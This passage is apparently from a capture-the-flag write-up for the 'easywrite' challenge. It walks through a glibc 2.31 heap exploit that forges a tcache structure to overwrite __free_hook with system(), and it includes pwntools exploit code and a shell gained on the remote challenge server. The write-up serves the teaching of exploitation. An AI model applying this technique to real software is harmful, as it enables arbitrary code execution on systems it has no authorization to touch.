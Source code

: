```python
0xe6ce6 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6ce9 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```
Cross-referencing between this and the `gdb` context, it becomes apparent that there's no easy one_gadget to jump to.

After spending an hour or so staring at ROP gadgets<sup>6</sup> and potential one_gadget alternatives, I realised the rather obvious exploit path I was missing.

`__free_hook(ptr)` is called with the `ptr` to be freed, which happens to be memory that we're in control of. Why not just jump to `system()`, and put `"/bin/sh"` at the front of the allocated memory?
```python
fake_tcache = tcache_perthread_struct({free_hook-0x8: SIZE})    # -8 to store /bin/sh
r.sendafter('Input your message:', fake_tcache)
r.sendafter('Where to write?:', pack(tcache_pointer))
r.sendafter('Any last message?:', b'/bin/sh\0' + pack(context.libc.symbols['system']))
r.interactive()
```
```python
[*] Switching to interactive mode
$ echo hello
[DEBUG] Sent 0xb bytes:
    b'echo hello\n'
[DEBUG] Received 0x6 bytes:
    b'hello\n'
hello
$
```
It worked.
```
[+] Opening connection to 124.156.183.246 on port 20000: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$ f
```
...locally. Not on remote.

Long story short, I was using `ld-linux.so --library-path` to simulate the remote `libc-2.31.so` environment, but `ld-linux` doesn't provide a *perfect* subsitute for running the actual libc bare-metal<sup>7</sup>.

Luckily, I had a machine with an extremely similar version of libc available. Debugging on that machine, I realised that the value of the `tcache_pointer` I had calculated earlier was off by 0x40 bytes:
```python
tcache_pointer = 0x7facf8666530-0x00007facf8473000+context.libc.address-0x40
```
With that, we're finally done.
```python
[+] Opening connection to 124.156.183.246 on port 20000: Done
[*] Switching to interactive mode
$ ls
bin
dev
easywrite
flag
lib
lib32
lib64
```